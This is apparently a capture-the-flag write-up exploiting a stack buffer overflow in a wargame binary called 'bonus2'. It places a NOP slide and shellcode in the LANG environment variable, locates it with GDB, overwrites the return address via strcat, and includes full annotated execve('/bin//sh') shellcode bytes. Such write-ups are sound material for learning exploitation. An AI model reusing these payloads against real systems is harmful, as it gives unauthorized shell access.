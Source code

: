 ## Exploitation Methodology

### Step 1: Environment Variable Preparation
```bash
export LANG=$(python -c 'print("fi" + "\x90" * 100 + shellcode)')

# Components breakdown:
# "fi"              - Language trigger (activates Finnish greeting)
# "\x90" * 100      - NOP slide (provides large landing zone)  
# shellcode         - execve("/bin//sh") payload
```

### Step 2: Address Space Discovery
Using GDB to find the exact LANG variable location:
```gdb
(gdb) break *main+125
(gdb) run A B
(gdb) x/40s *((char**)environ)
# Result: 0xbffffeb5: "LANG=fi\220\220\220..."
```

**Address Calculation:**
- **LANG Base**: `0xbffffeb5`  
- **Shellcode Start**: `0xbffffeb5 + 7` (after "LANG=fi")
- **Target Address**: `0xbffffeb5 + 7 + 42 = 0xbffffeec` (middle of NOP slide)

### Step 3: Payload Construction
```bash
# Argument Structure:
# argv[1]: 40 bytes of padding
# argv[2]: 18 bytes padding + 4 bytes return address

./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xec\xfe\xff\xbf"')

# Memory layout after strcat:
# greeting: "Hyvää päivää " + "A"*40 + "B"*18 + return_address
# Total:     13           +   40   +   18   +      4        = 75 bytes
# Overflow:  75 - 64 = 11 bytes (enough to overwrite return address)
```

## Shellcode Analysis

### Compact execve() Implementation
```assembly
\x6a\x0b       ; push 0x0b              - Push execve syscall number (11)
\x58           ; pop eax                - EAX = 11 (execve system call)
\x99           ; cdq                    - EDX = 0 (clear environment)
\x52           ; push edx               - Push NULL terminator
\x68\x2f\x2f\x73\x68 ; push "//sh"      - Push second part of path
\x68\x2f\x62\x69\x6e ; push "/bin"      - Push first part of path
\x89\xe3       ; mov ebx, esp          - EBX points to "/bin//sh"
\x31\xc9       ; xor ecx, ecx          - ECX = 0 (no arguments)
\xcd\x80       ; int 0x80              - Execute system call

# Result: execve("/bin//sh", NULL, NULL) → spawn shell
```
